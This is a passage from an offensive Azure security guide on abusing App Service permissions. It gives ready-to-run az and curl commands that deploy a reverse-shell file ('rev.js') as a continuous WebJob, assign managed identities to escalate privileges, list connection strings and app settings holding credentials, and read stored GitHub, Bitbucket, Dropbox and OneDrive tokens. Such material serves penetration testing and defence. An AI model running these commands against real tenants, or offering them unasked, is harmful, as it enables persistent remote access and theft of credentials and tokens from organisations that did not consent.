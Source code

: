- Create **continuous Webjob**:

```bash
# Using Azure permissions
az rest \
  --method put \
  --uri "https://windowsapptesting-ckbrg3f0hyc8fkgp.scm.canadacentral-01.azurewebsites.net/api/Continuouswebjobs/reverse_shell" \
  --headers '{"Content-Disposition": "attachment; filename=\"rev.js\""}' \
  --body "@/Users/username/Downloads/rev.js" \
  --resource "https://management.azure.com/"

# Using SCM credentials
curl -X PUT \
  "<SCM-URL>/api/Continuouswebjobs/reverse_shell2" \
  -H 'Content-Disposition: attachment; filename=rev.js' \
  --data-binary "@/Users/carlospolop/Downloads/rev.js" \
  --user '<username>:<password>'
```

### Microsoft.Web/sites/write, Microsoft.Web/sites/read, Microsoft.ManagedIdentity/userAssignedIdentities/assign/action

These permissions allow to **assign a managed identity** to the App service, so if an App service was previously compromised this will allow the attacker to assign new managed identities to the App service and **escalate privileges** to them.

```bash
az webapp identity assign --name <app-name> --resource-group <res-group> --identities /subscriptions/<subcripttion-id>/resourceGroups/<res_group>/providers/Microsoft.ManagedIdentity/userAssignedIdentities/<managed-identity-name>
```

### Microsoft.Web/sites/config/list/action

This permission allows to list the **connection strings** and the **appsettings** of the App service which might contain sensitive information like database credentials.

```bash
az webapp config connection-string list --name <name> --resource-group <res-group>
az webapp config appsettings list --name <name> --resource-group <res-group>
```

### Read Configured Third Party Credentials

Running the following command it's possible to **read the third party credentials** configured in the current account. Note that if for example some Github credentials are configured in a different user, you won't be able to access the token from a different one.

```bash
az rest --method GET \
  --url "https://management.azure.com/providers/Microsoft.Web/sourcecontrols?api-version=2024-04-01"
```

This command returns tokens for Github, Bitbucket, Dropbox and OneDrive.
